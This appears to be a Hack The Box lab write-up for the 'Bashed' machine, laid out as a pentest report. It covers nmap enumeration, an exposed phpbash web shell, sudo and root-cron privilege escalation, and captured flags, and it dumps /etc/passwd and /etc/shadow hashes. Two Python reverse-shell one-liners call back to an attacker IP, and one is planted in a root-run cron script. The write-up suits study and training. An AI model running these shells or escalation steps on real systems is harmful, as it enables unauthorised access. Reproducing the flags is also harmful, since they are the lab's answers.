



# Hack The Box: Bashed Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Bashed machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Bashed machine.

The specific IP address was:

- 10.10.10.68

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Bashed machine.

### System IP: 10.10.10.68

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.68      | **TCP:** 80

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p 80 -sC -sV -oN /HTB-boxes/bashed/recon/nmap_all_tcp.md 10.10.10.68
```

Output:

```txt
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p 80 --script vuln -oN /HTB-boxes/bashed/recon/nmap_all_vuln.md 10.10.10.68
```

Output:

```txt
80/tcp open  http    syn-ack
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CV
```


\newpage

#### Initial Access

**Vulnerability Exploited:** Command Injection / Remote Code Execution

**Vulnerability Explanation:** 

Phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible.

Reference: *https://github.com/Arrexel/phpbash*

**Vulnerability Fix:**

Remove access to */dev/phpbash.php* and */dev/phpbash_min.php* in the webserver.

**Severity:** Critical

**Exploit Code:**

Start a netcat listener:

```txt
nc -lvnp 4321
```

Enter the following code into the phpbash prompt:

```bash
export RHOST="10.10.14.12";export RPORT=4321;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


**Local.txt Proof Screenshot**



**Local.txt Contents**

```txt
2c281f318555dbc1b856957c7147bfc1
```

\newpage

#### Privilege Escalation as *www-data*

**Vulnerability Exploited:** Weak file permissions.

**Vulnerability Explanation:**
The user *www-data* can run the sudo binary as the user *scriptmanager*.

The root user's crontab executes any python script in the */scripts/* directory. An attacker can, with l place a malicious python script

**Vulnerability Fix:**

Remove permissions for *www-data* to use the sudo  binary.

**Severity:** Critical

**Exploit Code:**

```bash
sudo -u scriptmanager bash
```

**Proof Screenshot Here:**



**Proof.txt Contents:**

```txt
cc4f0afe3a1026d402ba10329674a8e2
```

#### Privilege Escalation as *scriptmanager*

**Vulnerability Exploited:** Crontab running job.

**Vulnerability Explanation:**

The root user's crontab contains a job of which executes any python script in the */scripts/* directory on a consistent time interval. An attacker can, with the permissions of *scriptmanager* place a malicious python script in such directory.

**Vulnerability Fix:**

Do not have the root user's crontab execute just any file in the */scripts/* directory. Make sure user's need root permission to edit/create files in the */scripts/* directory.

**Severity:** Critical

**Exploit Code:**

Start a netcat listener:

```bash
nc -lvnp 1234
```

Edit */scripts/test.py*

```bash
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);" > /scripts/test.py
```

Looking back at our listener, we get a reverse shell: 



**Proof Screenshot Here:**


**Proof.txt Contents:**

```txt
cc4f0afe3a1026d402ba10329674a8e2
```

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Bashed machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the box should not have to remove any user accounts or services from the system.

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.68   |  2c281f318555dbc1b856957c7147bfc1 | cc4f0afe3a1026d402ba10329674a8e2


## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
```

## Appendix - /etc/shadow contents

```txt
root:!:17504:0:99999:7:::
daemon:*:17212:0:99999:7:::
bin:*:17212:0:99999:7:::
sys:*:17212:0:99999:7:::
sync:*:17212:0:99999:7:::
games:*:17212:0:99999:7:::
man:*:17212:0:99999:7:::
lp:*:17212:0:99999:7:::
mail:*:17212:0:99999:7:::
news:*:17212:0:99999:7:::
uucp:*:17212:0:99999:7:::
proxy:*:17212:0:99999:7:::
www-data:*:17212:0:99999:7:::
backup:*:17212:0:99999:7:::
list:*:17212:0:99999:7:::
irc:*:17212:0:99999:7:::
gnats:*:17212:0:99999:7:::
nobody:*:17212:0:99999:7:::
systemd-timesync:*:17212:0:99999:7:::
systemd-network:*:17212:0:99999:7:::
systemd-resolve:*:17212:0:99999:7:::
systemd-bus-proxy:*:17212:0:99999:7:::
syslog:*:17212:0:99999:7:::
_apt:*:17212:0:99999:7:::
messagebus:*:17504:0:99999:7:::
uuidd:*:17504:0:99999:7:::
arrexel:$1$mDpVXKQV$o6HkBjhl/e.S.bV96tMm6.:17504:0:99999:7:::
scriptmanager:$6$WahhM57B$rOHkWDRQpds96uWXkRCzA6b5L3wOorpe4uwn5U32yKRsMWDwKAm.RF6T81Ki/MOyo.dJ0B8Xm5/wOrLk35Nqd0:17504:0:99999:7:::
```